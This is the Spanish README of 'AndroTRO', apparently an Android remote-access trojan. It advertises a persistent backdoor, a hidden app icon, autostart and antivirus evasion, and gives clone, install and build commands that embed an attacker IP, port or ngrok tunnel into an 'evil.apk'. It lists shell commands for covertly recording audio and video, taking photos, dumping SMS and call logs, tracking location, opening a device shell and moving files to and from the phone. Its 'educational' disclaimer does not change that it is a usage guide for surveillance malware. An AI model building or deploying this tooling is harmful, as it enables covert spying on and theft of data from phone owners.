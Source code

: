 **Descarga de responsabilidad**: este software está destinado únicamente a fines educativos. No soy responsable de ningún uso malicioso de la aplicación.
# AndroTRO 


[![GitHub followers](https://github.com/Plumst-37)]

AndroTro es una herramienta diseñada para controlar el sistema Android de forma remota y recuperar información del mismo. AndroTro es una aplicación cliente/servidor desarrollada en Java Android para el lado del cliente y el Servidor está en Python.

##### AndroTRO funcionará en dispositivos desde Android 4.1 (Jelly Bean) hasta Android 9.0 (Oreo) (API 16 a API 28)

> AndroTro también funciona en Android 10 (Q), pero algunos de los comandos del intérprete serán inestables. 

## Screenshots

![AndroTro](Screenshots/7.jpg "AndroTro en acción")
## Características de AndroTro
* Puerta trasera completamente persistente
* ~~Totalmente indetectable por cualquier escáner antivirus [VirusTotal](https://www.virustotal.com/gui/file/e900b5d37ad8c8f79ca000b148253af04696a85fdfc245861cfb226dd86562df/detection)
* Icono invisible al instalar
* APK liviano que se ejecuta 24*7 en segundo plano
* La aplicación se inicia automáticamente al iniciar
* Puede grabar audio, video y tomar fotografías desde ambas cámaras.
* Explorar registros de llamadas y registros de SMS
* Obtener la ubicación actual, detalles de la tarjeta SIM, IP, dirección MAC del dispositivo


## Requisitos
  AndroTRO requiere Python3 y JAVA (o Android Studio)

## Instalacion
```
git clone https://github.com/Plumst-37/AndroTro.git
cd AndroTro
pip install -r requirements.txt
```
#### Nota:
Al clonar el repositorio usando Git bash en Windows, es posible que obtenga el siguiente error:
> error: no se puede crear el archivo \<nombre de archivo>: nombre de archivo demasiado largo

Esto se debe a que Git tiene un límite de 4096 caracteres para un nombre de archivo, excepto en Windows cuando Git se compila con msys. Utiliza una versión anterior de la API de Windows y hay un límite de 260 caracteres para un nombre de archivo.

Puede evitar esto configurando `core.longpaths` en `true`.

> git config --system core.longpaths verdadero

Debes ejecutar Git bash con privilegios de administrador.


### Modos disponibles
* `--build` - para construir la apk de Android
* `--ngrok` - para usar el túnel ngrok (a través de Internet)
* `--shell`: obtención de un shell interactivo del dispositivo

### modo `construir`

```
Uso:
  python3 androTro.py --build --ngrok [banderas]
  Banderas:
    -p, --port Número de puerto del atacante (opcional, por defecto está configurado en 8000)
    -o, --output Nombre del archivo apk (opcional, por defecto está configurado en "karma.apk")
    -icon, --icon Icono visible después de instalar apk (de forma predeterminada está configurado como oculto)
```

```
Uso:
  python3 androTro.py --build [banderas]
  Banderas:
    -i, --ip Dirección IP del atacante (obligatoria)
    -p, --port Número de puerto del atacante (obligatorio)
    -o, --output Nombre del archivo apk (opcional)
    -icon, --icon Icono visible después de instalar apk (de forma predeterminada está configurado como oculto).
```

O puede compilar manualmente el apk importando la carpeta [Código de Android](Android_Code) a Android Studio y cambiando la dirección IP y el número de puerto en [config.java](Android_Code/app/src/main/java/com/example/reverseshell2 /config.java) y luego puede generar el apk firmado desde `Android Studio -> Build -> Generate Signed APK(s)`
### modo `shell`
```
Uso:
  python3 androTro.py --shell [banderas]
  Banderas:
    -i, --ip Dirección IP de Listner
    -p, --port Número de puerto de Listner
```
Después de ejecutar el modo `shell`, obtendrás un intérprete del dispositivo.

Comandos que se pueden ejecutar en el intérprete.
```
    deviceInfo                 --> devuelve información básica del dispositivo
    camList                    --> devuelve ID de cámara  
    takepic [cameraID]         --> Toma una foto de la cámara
    startVideo [cameraID]      --> comienza a grabar el video
    stopVideo                  --> deja de grabar el video y devuelve el archivo de video
    startAudio                 --> comienza a grabar el audio
    stopAudio                  --> deja de grabar el audio
    getSMS [inbox|sent]        --> devuelve sms de la bandeja de entrada o sms enviados en un archivo
    getCallLogs                --> devuelve registros de llamadas en un archivo
    shell                      --> inicia un shell sh del dispositivo
    vibrate [number_of_times]  --> hacer vibrar el dispositivo varias veces
    getLocation                --> devolver la ubicación actual del dispositivo
    getIP                      --> devuelve la ip del dispositivo
    getSimDetails              --> devuelve los detalles de todos los sim del dispositivo
    clear                      --> borra la pantalla
    getClipData                --> devolver el texto guardado actualmente desde el portapapeles
    getMACAddress              --> devuelve la dirección mac del dispositivo
    exit                       --> salir
```
En el shell sh hay algunos subcomandos.
```
    get [full_file_path] --> descarga el archivo a la máquina local (tamaño de archivo de hasta 15 MB)
    uploads [nombre de archivo] --> carga el archivo al dispositivo Android
```

## Ejemplos

* Para compilar el apk usando ngrok, que también configurará el listner:

``python3 androTro.py --build --ngrok -o evil.apk``

* Para construir el apk usando la IP y el puerto deseados:

``python3 androTro.py --build -i 192.169.x.x -p 8000 -o evil.apk``

* Para conseguir el intérprete:

``python3 androTro.py --shell -i 0.0.0.0 -p 8000``

## Ejemplos de intérpretes

* Generando APK
<p align="centro">
  <img src="Screenshots/6.JPG" width="800"/>
</p>


## HACER
* Configurar multicliente
* Agregar comando de captura de pantalla
